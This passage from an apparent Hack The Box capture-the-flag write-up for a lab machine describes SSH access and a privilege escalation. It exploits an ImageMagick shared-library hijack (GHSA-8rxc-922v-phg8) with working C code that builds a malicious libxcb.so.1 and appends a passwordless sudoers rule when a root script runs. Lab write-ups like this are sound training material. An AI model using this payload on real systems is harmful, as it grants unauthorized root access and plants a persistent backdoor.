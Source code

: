 Result: Password for `developer` user: `25[REDACTED]28`

## SSH Access

With valid credentials, we logged into the system via SSH:

```bash
ssh developer@titanic.htb
```

<br>

# Privilege Escalation

## Scheduled Script Discovery

We identified a script `/opt/app/static/assets/images/identify_images.sh` executed by root:

```bash
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

The script uses ImageMagick version 7.1.1-35, which is vulnerable to a known shared library hijacking issue [(GHSA-8rxc-922v-phg8)](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8).

## Exploitation

To escalate privileges, we crafted a malicious shared library (libxcb.so.1) to be loaded by magick:

```c
gcc -shared -fPIC -o libxcb.so.1 -nostartfiles -x c - <<EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'developer ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers");
}
EOF

```

We moved the library to the monitored directory:

```bash
mv libxcb.so.1 /opt/app/static/assets/images/
```

Once the scheduled script executed, the developer user was granted passwordless sudo access. The root flag is located in the `/root/root.txt` file.
